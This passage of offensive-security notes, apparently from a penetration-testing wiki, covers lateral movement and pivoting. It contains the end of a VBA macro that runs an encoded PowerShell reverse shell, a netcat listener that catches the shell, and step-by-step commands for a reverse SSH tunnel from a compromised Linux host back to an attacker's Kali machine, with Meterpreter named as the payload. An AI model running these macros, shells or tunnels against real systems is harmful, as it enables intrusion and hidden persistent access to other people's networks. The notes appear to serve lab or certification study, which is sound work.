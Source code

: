 ```powershell
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
# Start a Netcat listener on the W10 client to accept the revshell from the DC
PS > nc.exe -lvnp 4444
```
{% endcode %}

## Windows Management Instrumentation

{% embed url="https://learn.microsoft.com/en-us/windows/win32/winrm/portal?redirectedfrom=MSDN" %}

## Powershell Remoting

{% hint style="info" %}
PowerShell Remoting by default uses WinRM for Cmdlets such as Enter- PSSession. Therefore, a user needs to be in the local group Windows Management Users to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.
{% endhint %}

{% embed url="https://www.trustedsec.com/blog/no_psexec_needed/" %}

## Stable Pivot Point (Linux)

{% code overflow="wrap" %}
```bash
# THE COMMANDS HAVE TO BE ISSUED FROM A NON-INTERACTIVE SHELL SUCH AS METERPRETER SHELL (set payload linux/x86/meterpreter/reverse_tcp)
#OTHERWISE IT WILL NOT WORK IN CASES SUCH AS FULLY INTERACTIVE TTY SHELL

# automatically accept the host key of our Kali machine
-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" 
# Create SSH keys on the target
cd /tmp
mkdir keys
cd keys
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/keys/id_rsa
...
cat id_rsa.pub
ssh-rsa ... www-data@hostname #www-data is just an example of any user
# We copy that public key but adding restrictions:
# - only permitting access coming from that victim specific IP (public/NAT)
from="10.11.1.0"
# ignore any commands the user supplies
command="echo 'This account can only be used for port forwarding'"
# prevent agent and X11 forwarding
no-agent-forwarding,no-X11-forwarding
# prevent the user from being allocated a tty device
no-pty
# So this would be the final ~/.ssh/authorized_keys file on Kali
from="10.11.1.0",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1... www-data@hostname
# If we need a reverse tunnel, this is a possible command
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.1.10
# -f to tunnel on the background /// -N to say we are not running any commands /// -i to provide the key file

# --------------------IN CASE SSH VERSION IS RECENT ENOUGH TO DO REVERSE DYNAMIC PORT FORWARDING, SAME STEPS AND THIS COMMAND
```